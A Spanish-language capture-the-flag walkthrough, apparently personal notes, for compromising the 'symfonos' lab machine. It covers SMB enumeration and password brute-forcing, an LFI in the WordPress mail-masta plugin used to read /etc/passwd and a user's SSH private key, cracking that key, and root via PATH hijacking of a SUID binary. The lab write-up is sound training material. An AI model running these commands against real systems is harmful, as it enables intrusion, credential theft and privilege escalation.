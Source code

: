Escaneo:

```
Nmap scan report for 10.0.2.5
Host is up (0.00034s latency).
Not shown: 2 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:A8:83:5E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2025-07-05T10:03:00-05:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-07-05T15:02:59
|_  start_date: N/A
|_clock-skew: mean: 1h40m01s, deviation: 2h53m13s, median: 0s
```

Vamos a intentar listar los recursos compartidos por SMB puerto 445:

```
smbmap -H 10.0.2.5
```

![[Pasted image 20250705120909.png]]

Sin proporcionar contraseña tenemos acceso al recurso `anonymous`, y además vemos un recurso compartido de un tal `helios` posible usuario de sistema. Vamos a listar el contenido de ese recurso:

```
smbmap -H 10.0.2.5 -r anonymous
```

![[Pasted image 20250705121202.png]]

Vamos a descargarnos el archivo `attention.txt`:

```
smbmap -H 10.0.2.5 --download anonymous/attention.txt
```

![[Pasted image 20250705121325.png]]

![[Pasted image 20250705121422.png]]

Vemos posibles contraseñas `epidioko`, `qwerty`, `baseball`. Tenemos contraseñas, vamos a intentar enumerar usuarios del sistema de la siguiente forma:

```
crackmapexec smb 10.0.2.5 --users
```

![[Pasted image 20250705121905.png]]

Vemos el usuario `helios` reportado. Tenemos un usuario, y posibles contraseñas, vamos a intentar conectarnos al recurso `Helios`, con el usuario `helios` y con alguna de las contraseñas, haciendo fuerza bruta. Para ello crearemos un archivo `passwords.txt` con las anteriores contraseñas:

![[Pasted image 20250705122401.png]]

Haremos fuerza bruta de la siguiente manera:

```
crackmapexec smb 10.0.2.5 -u helios -p passwords.txt
```

![[Pasted image 20250705122615.png]]

No ha reportado nada, intentaremos con `smbmap`:

```
smbmap -H 10.0.2.5 -u helios -p <epidioko>
smbmap -H 10.0.2.5 -u helios -p <qwerty>
```

![[Pasted image 20250705122747.png]]

La password `qwerty` ha dado resultado, ahora nos conectaremos al recurso compartido de helios.

```
smbclient //10.0.2.5/helios -U helios --password qwerty
```

![[Pasted image 20250705123132.png]]

![[Pasted image 20250705123243.png]]

Vemos una posible ruta del servicio web de la máquina `h3l105`.

![[Pasted image 20250705123530.png]]

La página no carga del todo bien, revisemos el código fuente.

![[Pasted image 20250705123632.png]]

Vemos que se está aplicando VirtualHosting `symfonos.local`, vamos a agregarlo al `/etc/hosts`.

![[Pasted image 20250705123804.png]]

![[Pasted image 20250705123939.png]]

Vemos que se está usando un gestor de contenidos Wordpress, vamos a realizar un escaneo con `wpscan`

```
wpscan --url http://symfonos.local/h3l105
```

o

```
wpscan --url http://symfonos.local/h3l105 -e p --plugins-detection aggressive
```

![[Pasted image 20250701213227.png]]

También, en caso de no reportar nada, debemos revisar el código fuente de la página:

![[Pasted image 20250705131511.png]]

![[Pasted image 20250705131541.png]]

![[Pasted image 20250705133846.png]]

Vemos dos plugins `mail-masta` y `site-editor`. Busquemos exploits para el primero:

```
searchsploit wordpress mail masta
```

![[Pasted image 20250705131920.png]]

Encontramos una vulnerabilidad tipo LFI, examinaremos el 1ro de los exploits `40290.txt`

```
searchsploit -x 40290.txt
```

![[Pasted image 20250705134048.png]]

Haremos el PoC de la siguiente manera:

```
curl -s -X GET 'http://10.0.2.5/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd'
```

![[Pasted image 20250705134312.png]]

Funciona, vemos en el sistema el usuario `helios`. Veremos si tiene alguna clave de acceso en su directorio `.ssh`.

```
curl -s -X GET 'http://10.0.2.5/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/home/helios/.ssh/id_rsa' > id_rsa
chmod 600 id_rsa
```

![[Pasted image 20250705134844.png]]

La clave `id_rsa` está encriptada, es decir que necesita de una password, intentaremos romperla de la siguiente manera:

```
ssh2john id_rsa > hash.txt 
```

Extraemos el hash de la password, para luego intentar descifrarla con john.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20250705135250.png]]

Ahora, nos intentaremos conectar por ssh, proporcionando la id_rsa como el usuario helios.

```
ssh -i id_rsa helios@10.0.2.5 //id_rsa pass -> 123123
```

![[Pasted image 20250705135435.png]]

## Escalada de Privilegios

```
find / -perm -4000 2>/dev/null
```

![[Pasted image 20250705135824.png]]

Buscamos binarios con permisos SUID, y encontramos un `/opt/statuscheck`. Vamos a ejecutarlo:

![[Pasted image 20250705140025.png]]

Vemos un output muy similar al de `curl`, vamos a ver el contenido del binario con el comando `strings`.

```
strings /opt/statuscheck
```

![[Pasted image 20250705140214.png]]

Vemos que el comando `curl` se está usando sin emplear su ruta ablsouta `/usr/bin/curl`, por lo tanto puede acontecer un **Path Hijacking**, en el directorio personal de helios crearemos un script con el nombre de `curl` que le brinde permisos SUID a `/bin/bash`, de damos permisos de ejecución al script de curl malicioso y modificamos el PATH para que empiece su búsqueda en el directorio actual:

```
echo "chmod u+s /bin/bash" > curl
chmod +x curl
ls -la curl
export PATH=.:$PATH
/opt/statuscheck
ls -la /bin/bash
```

![[Pasted image 20250705140939.png]]

```
/bin/bash -p
whoami
```

![[Pasted image 20250705141040.png]]

![[Pasted image 20250705141234.png]]
## Primera máquina resuelta


